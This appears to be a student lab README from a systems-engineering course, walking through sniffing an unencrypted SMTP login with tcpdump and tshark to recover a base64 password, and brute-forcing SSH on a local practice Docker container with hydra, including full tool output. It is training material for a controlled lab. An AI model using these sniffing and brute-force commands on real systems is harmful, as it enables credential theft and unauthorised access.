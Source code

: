 # Attack is the best defense

```bash
88                                88        88
88                                88        ""
88                                88
88,dPPYba,  ,adPPYYba,  ,adPPYba, 88   ,d8  88 8b,dPPYba,   ,adPPYb,d8
88P'    "8a ""     `Y8 a8"     "" 88 ,a8"   88 88P'   `"8a a8"    `Y88
88       88 ,adPPPPP88 8b         8888[     88 88       88 8b       88
88       88 88,    ,88 "8a,   ,aa 88`"Yba,  88 88       88 "8a,   ,d88
88       88 `"8bbdP"Y8  `"Ybbd8"' 88   `Y8a 88 88       88  `"YbbdP"Y8
                                                            aa,    ,88
                                                             "Y8bbdP"
```

# General

* Network basics
* Docker

# Environment

<!-- ubuntu -->
[![Ubuntu](https://img.shields.io/static/v1?label=&message=Ubuntu&color=E95420&logo=Ubuntu&logoColor=E95420&labelColor=2F333A)](https://ubuntu.com/) <!-- bash -->
[![Bash](https://img.shields.io/static/v1?label=&message=GNU%20Bash&color=4EAA25&logo=GNU%20Bash&logoColor=4EAA25&labelColor=2F333A)](https://www.gnu.org/software/bash/) <!-- vim -->
[![Vim](https://img.shields.io/static/v1?label=&message=Vim&color=019733&logo=Vim&logoColor=019733&labelColor=2F333A)](https://www.vim.org/) <!-- vs code -->
[![VS Code](https://img.shields.io/static/v1?label=&message=Visual%20Studio%20Code&color=5C2D91&logo=Visual%20Studio%20Code&logoColor=5C2D91&labelColor=2F333A)](https://code.visualstudio.com/)

* OS: ``ubuntu``, ``kali``
* Shell: ``bash``
* IDE: ``vim``, ``VS Code``
* ``ssh``
* ``tcpdump``
* ``hydra``
* ``telnet``
* ``docker``

> [tcpdump.org](https://www.tcpdump.org/)

## Sniffing unencrypted traffic

> Sniffing over ``ubuntu`` 20.04 LTS booting on Linux 4.26. generic
>
> Kali Linux: Kali GNU/Linux Rolling 2021.4
>
> sniffing unencrypted traffic and getting information out of it.
>
> export for wireshark
>
> convert from base64

> Terminal 1

```bash
┌──(ralex㉿xelar)-[/media/…/2a17a9fd-dea9-4940-b67e-2348aa63bb5f/ralexrivero/holberton-system_engineering-devops/attack_is_the_best_defense]
└─$ sudo tcpdump -s 0 -i eth0 -w capture.pcap
```

> Terminal 2

```bash
┌──(ralex㉿xelar)-[/media/…/2a17a9fd-dea9-4940-b67e-2348aa63bb5f/ralexrivero/h┌──(ralex㉿xelar)-[/media/…/2a17a9fd-dea9-4940-b67e-2348aa63bb5f/ralexrivero/holberton-system_engineering-devops/attack_is_the_best_defense]
└─$ ./user_authenticating_into_server
```

> After capturing the traffic

```bash
┌──(ralex㉿xelar)-[/media/…/2a17a9fd-dea9-4940-b67e-2348aa63bb5f/ralexrivero/holberton-system_engineering-devops/attack_is_the_best_defense]
└─$ tshark -z follow,tcp,ascii,0 -P -r capture.pcap | grep -i pass
   43  22.802363 192.168.0.101 → 167.89.115.18 SMTP 88 C: Pass: bXlwYXNzd29yZDk4OTgh
   45  22.988826 167.89.115.18 → 192.168.0.101 SMTP 118 S: 535 Authentication failed: Bad username / password
```

> Decode the password from base 64

## Brute attack force

Pull docker image

``docker pull sylvainkalache/264-1```

Run the image

```bash
ralex@ralex-nb:~$ docker run -p 2222:22 -d -ti sylvainkalache/264-1
f6e64ceecab2c913fac1a15f2f2f66669dac8fd6b8f9a563ae30810f19852719
```

```bash
ralex@ralex-nb:~$ docker ps
CONTAINER ID   IMAGE                  COMMAND                  CREATED              STATUS              PORTS                                   NAMES
f6e64ceecab2   sylvainkalache/264-1   "/bin/sh -c 'service…"   About a minute ago   Up About a minute   0.0.0.0:2222->22/tcp, :::2222->22/tcp   quizzical_curran
ralex@ralex-nb:~$
```

brute force docker with hydra

``hydra -l sylvain -P passlist.txt ssh://127.0.0.1:2222``

```bash
ralex@ralex-nb:/media/ralex/2a17a9fd-dea9-4940-b67e-2348aa63bb5f/hack$ hydra -l sylvain -P ignis-1M.txt ssh://127.0.0.1:2222
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-25 23:59:46
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1000000 login tries (l:1/p:1000000), ~62500 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
[STATUS] 178.00 tries/min, 178 tries in 00:01h, 999824 to do in 93:37h, 16 active
[2222][ssh] host: 127.0.0.1   login: sylvain   password: password123
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 5 final worker threads did not complete until end.
[ERROR] 5 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-26 00:01:20
```

## Author

<!-- twitter -->
[![Twitter](https://img.shields.io/twitter/follow/ralex_uy?style=social)](https://twitter.com/ralex_uy) <!-- linkedin --> [![Linkedin](https://img.shields.io/badge/LinkedIn-+24K-blue?style=social&logo=linkedin)](https://www.linkedin.com/in/ronald-rivero/) <!-- github --> [![Github](https://img.shields.io/github/followers/ralexrivero?style=social)](https://github.com/ralexrivero/) <!-- vagrant --> [![Vagrant](https://img.shields.io/static/v1?label=&message=Vagrant%20Profile&color=1868F2&logo=vagrant&labelColor=2F333A)](https://app.vagrantup.com/ralexrivero) <!-- docker --> [![Docker](https://img.shields.io/static/v1?label=&message=Docker%20Profile&color=2496ED&logo=Docker&labelColor=2F333A)](https://hub.docker.com/u/ralexrivero)